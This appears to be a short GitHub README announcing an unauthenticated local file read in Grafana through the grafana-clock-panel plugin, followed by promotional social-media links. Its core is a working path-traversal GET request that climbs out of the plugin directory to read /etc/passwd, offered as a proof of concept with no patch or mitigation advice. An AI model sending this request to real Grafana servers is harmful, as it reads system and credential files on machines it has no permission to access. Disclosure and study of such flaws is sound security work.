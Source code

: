 # grafana-unauth-file-read

Unauthorized reading of files in Grafana (0day)

It looks like the new 0day LFI in Grafana exists thanks to the grafana-clock-panel plugin. It is enough to send a GET request of the form:

```GET /public/plugins/grafana-clock-panel/../../../../../../../etc/passwd```

### Proof
![PoC](https://raw.githubusercontent.com/Vulnmachines/grafana-unauth-file-read/main/Grafana.PNG)

### Follow us
#### [Youtube](https://www.youtube.com/c/rapidsafeguard)
#### [Twitter](https://www.twiiter.com/rapidsafeguard)
#### [Telegram](https://t.me/rapidsafeguard)
#### [Vulnmachines.com](https://www.vulnmachines.com)
#### [LinkedIn](https://www.linkedin.com/in/punit-darji-5500/)
#### [Business query](https://www.rapidsafeguard.com)

### Let's connect
#### [LinkedIn](https://www.linkedin.com/in/punit-darji-5500/)
